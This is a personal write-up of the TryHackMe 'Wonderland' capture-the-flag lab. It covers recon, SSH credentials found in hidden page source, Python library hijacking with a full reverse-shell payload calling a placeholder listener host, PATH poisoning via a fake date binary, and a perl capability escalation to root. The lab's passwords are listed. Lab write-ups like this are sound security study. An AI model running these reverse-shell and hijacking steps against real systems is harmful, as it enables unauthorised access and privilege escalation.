 -----------------------------------------------
# THM Wonderland
Tags:  #Hacking #Writeup 
Creation date: 2021-10-04

-----------------------------------------------

## [[recon]]

### [[Nmap]] Scan
![[alice-wonderland-nmap.png]]
> Nmap scan of target box

Ports open:
-	22 (SSH)
-	80 (Web Server)


### Directory Scanning

Using [[Gobuster]]

Scanning for directories on the webserver leads to `http://<ip>/r/a/b/b/i/t/`.

![[alice-homepage.png]]

#### Source code

Checking the source code for this page reveals a string that looks like an SHH user/pass combination.

`style="display:none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail`

## Alice > Rabbit

Using this combination as an SSH user/pass combination gains us access to the target machine.

![[alice-wonderland-ssh-alice.png]]


### sudo -l

Running `sudo -l` tells us we can run `/usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py` as user `rabbit`.

![[alice-sudo-l.png]]


Checking the file `walrus_and_the_carpenter.py` shows us that it is importing the library file `random.py`.

![[alice-walrus-random.png]]

We can create our own random.py that the file will read first before the one in `/var/lib/` that throws us a shell we have to catch with a listener as user rabbit.

### Create random.py to throw shell as rabbit to listener.

Creating a new `random.py` file in the home directory allows us to inject malicious code into the running of `walrus_and_the_carpenter.py`. ([[Path Poisoning]])

Created `random.py` file:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<host_addr>",<port>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Now when the [[python]] code is run using sudo to change to the user `rabbit` we gain a shell as `rabbit`:

## Rabbit > Hatter

Enumerating the home directory of user `rabbit` gives us a file called `teaParty`. This file has an SUID bit set by the user `hatter`. Running this file gives us a segmentation so it could be vulnerable to an overflow attack. Trying to read the contents of the file gives away that it is using the `date` command. We can poison the path with a new date file that contains `/bin/sh` in order to gain a shell as `hatter`. ([[Path Poisoning]])

`echo "/bin/sh" > /tmp/date`
`export PATH=/tmp:$PATH`

Running the `teaParty` file now will spawn a shell as `hatter`.

##### SHH in as hatter for better shell

Inside hatters home directory is a file `password.txt`. This can be used to SSH back into the machine for a nicer environment for use.

## Hatter > Root

### Run linpeas on target machine, shows pearl as able to set SUID bit

![[alice-linpeas-output.png]]

#### GTFO bins for pearl, use cap_set payload 

![[alice-perl-setuid.png]]

##### read root.txt in /home/alice/ and user.txt in /home/root/ (everything is upside down here)


## General Notes

alice password: HowDothTheLittleCrocodileImproveHisShiningTail

hatter password: WhyIsARavenLikeAWritingDesk?